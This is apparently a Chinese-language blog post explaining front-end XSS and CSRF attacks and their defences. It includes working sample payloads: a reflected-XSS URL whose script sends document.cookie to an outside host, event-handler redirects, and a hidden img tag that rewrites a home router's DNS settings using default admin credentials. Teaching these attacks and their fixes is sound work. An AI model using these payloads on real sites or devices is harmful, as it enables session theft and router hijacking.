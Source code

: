 ```yaml
---
layout: post
title: 前端安全的那些事
---
```


> Ajax的兴起，带了前端技术的飞速发展，安全问题已经悄悄的从服务端转了前端。

常见的攻击手段有：

+ XSS（跨站脚本攻击）
+ CSRF(伪造请求攻击)

##XSS（跨站脚本攻击）##

###往web页面里插入恶意的html代码###

####页面中输入DOM节点####

{% highlight html %}
<img src="xxx.gif" onload="window.location.href='johnqing.github.io'">
{% endhighlight %}

####页面中输入js脚本####

{% highlight javascript %}
window.location.href='johnqing.github.io'
{% endhighlight %}

如果用户在，用户信息等form表单中输入

{% highlight javascript %}
window.location.href='johnqing.github.io'
{% endhighlight %}

就会造成用户打开该页面就会执行自动跳转

####基于字符集的XSS####

用户在添加表单时，可输入如下代码：

{% highlight html %}
<p>
{% endhighlight %}

就可能造成页面错乱

###当用户浏览当前页面时，页面中html代码会被执行###

某网站的一个请求地址 和 页面中代码如下：

http://X.com/search.asp?q=ssss

{% highlight php %}
搜索结果：<?php $_GET('q') ?>
{% endhighlight %}

好了，俺偷偷伪造一个请求发送给该网站

http://X.com/search.asp?q=<script>window.open("http://johnqing.github.io.cn?cookie="+document.cookie)</script>

瞬间，他的cookie信息，都在这了。

###Flash XSS攻击###

当然flash作为web里一直存在的东东，当然也可以攻击。Flash中的getURL()动作，它可以使我们的页面重定向到函数指定的页面。

{% highlight javascript %}
getURL('javascript:alert(document.cookie)');
{% endhighlight %}

哈哈 cookie又在我这了。。

###未经验证的跳转造成的跨站###

服务端做302跳转时，跳转的地址来自用户，攻击者 可以输入一个恶意的网址进行跳转来执行脚本。

看了上面的内容，亲们肯定会想到，可以用上面的代码，实现一个钓鱼网站了。（ps：千万别干。。干了也别说我告诉你的。。）

####XSS漏洞修复####

原则：不相信客户输入的数据
注意: 攻击代码不一定在<script></script>中

将重要的cookie标记为http only, 这样的话Javascript 的document.cookie语句就不能获取到cookie了.
只允许用户输入我们期望的数据。例如：年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
对数据进行Html Encode 处理
过滤或移除特殊的Html标签， 例如: <script>, <iframe> ,  < for <, > for >, &quot for
过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。

##CSRF(伪造请求攻击)##

这个例子比较典型了，前几天看到一个同学发了一个他中招的东西，访问一个网站时，它会把你路由器DNS修改为Google 提供的 `8.8.8.8`。
这就是典型的伪造请求攻击。

代码如下：

{% highlight html %}
<img style="display: none; " src="http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&amp;ip1=192.168.1.100&amp;ip2=192.168.1.199&amp;Lease=120&amp;gateway=0.0.0.0&amp;domain=&amp;dnsserver=&amp;dnsserver=8.8.8.8&amp;dnsserver2=8.8.8.8&amp;Save=%B1%A3+%B4%E6">
{% endhighlight %}

可以想象一下，假如你访问的是你的银行账户，而且丫也支持 `GET` 请求，很容易就会被攻击者利用这种漏洞，从账户中把钱拿出来

还有请勿调用第三的文件。

因为如果该文件被加入了攻击性脚本，你整个网站基本都会沦陷。

####CSRF的防御####

1. 限制验证cookie的到期时间。cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。
2. 验证码。每次的用户提交都需要用户在表单中填写一个图片上的随机字符串。这个方案可以完全解决CSRF，听闻是验证码图片的使用涉及了一个被称为MHTML的Bug，可能在某些版本的微软IE中受影响。
3. 用户在进行重要业务前输入口令。这可以防止黑客发动CSRF攻击（只要浏览器中没有包含口令），因为这种重要信息无法预测或轻易获得。
4. 使用定制的HTTP头。验证是否符合当前请求头。
5. 只允许GET请求检索数据，但是不允许它修改服务器上的任何数据。
